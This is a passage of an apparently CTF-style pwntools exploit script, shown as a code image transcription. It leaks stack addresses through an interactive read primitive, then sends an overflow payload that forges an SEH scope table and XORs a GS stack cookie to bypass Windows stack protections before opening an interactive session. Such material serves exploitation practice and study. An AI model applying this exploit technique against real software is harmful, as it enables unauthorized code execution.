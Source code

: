```python
p.sendline(str(stack3))
p.recvuntil("is ")
stack33=int(p.recvuntil("\n"),16)
#print hex(stack33)

p.recvuntil("Do you want to know more?\n")
p.sendline("yes")
p.recvuntil("Where do you want to know?\n")
p.sendline(str(stack4))
p.recvuntil("is ")
stack44=int(p.recvuntil("\n"),16)
#print hex(stack44)

payload = "A" * 4 
payload += SEH_scope_table
payload += "A" * 112
#payload = "A" * 4
#payload = "A" * 4
#payload = "A" * 4
payload += p32(stack11)
payload += p32(stack22) 
payload += p32(stack33) 
payload += p32(stack44) 
payload += p32(main_addr+0x1019A30-0x101395E) 
payload += p32(cookie^GS_addr) 
payload += p32(0)

#pause()

p.recvuntil("Where do you want to know?\n")
p.sendline("aaa")
p.sendline(payload)
p.recvuntil("Do you want to know more?\n")
p.sendline("yes")
p.recvuntil("Where do you want to know?\n")
p.sendline("aaa")

p.interactive()
```

